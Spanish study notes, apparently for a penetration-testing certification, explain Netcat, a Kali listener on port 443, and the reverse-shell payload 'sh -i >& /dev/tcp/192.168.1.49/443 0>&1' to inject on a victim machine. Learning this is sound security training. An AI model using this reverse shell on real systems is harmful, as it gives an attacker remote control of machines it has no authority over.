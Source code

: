 ¿Que es Netcat?: Netcat es una herramienta de red que permite abrir puertos TCP/UDP en un HOST, asociar una shell a un puerto específico y forzar conexiones UDP/TCP. Es útil tanto para ataques como para auditores de seguridad de re  
  

> [!important] https://www.revshells.com - Este es un generador de shell inversa en línea que permite a cualquier persona configurar sus direcciones IP, puertos y shell de elección para sus payloads (cargas útiles) .

  

![[/../Imagenes/image.png]]

 ![[./../Imagenes/image.png]]
  
  

  
Ponemos el siguiente comando en nuestra maquina atacante **nc -nlvp 443** . Con esto ponemos el Netcat en escucha en el puerto 443.

  
  
`nc -nlvp 443`  
  

> [!important] `nc`: Invoca **la herramienta** Netcat.<br><br><br>`-n`: **Desactiva la resolución de nombres DNS**. Esto significa que solo se usarán direcciones IP sin intentar resolver nombres de dominio.<br><br><br>`-``l`: **Activa el modo de escucha** (listen), lo que **convierte Netcat en un servidor que espera conexiones entrantes**.<br><br><br>`-v`: Habilita el modo "verboso" (verbose), proporcionando **información** detallada **sobre las conexiones**.<br><br><br>`-``p 443`: Especifica el **puerto** en el **que** Netcat **estará escuchando**, en este caso, el puerto 443 (comúnmente utilizado por HTTPS).<br><br>

  

![[https://github.com/TerragensPL/Apuntes-para-Examen-eJPTv2/raw/main/Imagenes/9d3054ff-5a86-428a-bcc8-294f30a5ddb7.png]]

  

Si conseguimos acceso a muestra maquina victima debemos inyectar el comando que habíamos conseguido con el reverse shell generator.  
  
  
`sh -i >& /dev/tcp/192.168.1.49/443 0>&1`

  

![./raw/main/Imagenes/image 1.png]]

  

Nuestra maquina atacante Kali reacciona a la señal de la maquina victima, originado que tengamos abierta una terminal interactiva sobre la maquina victima.

  

![[../raw/main/Imagenes/image 2.png]]

![[/raw/main/Imagenes/image 3.png]]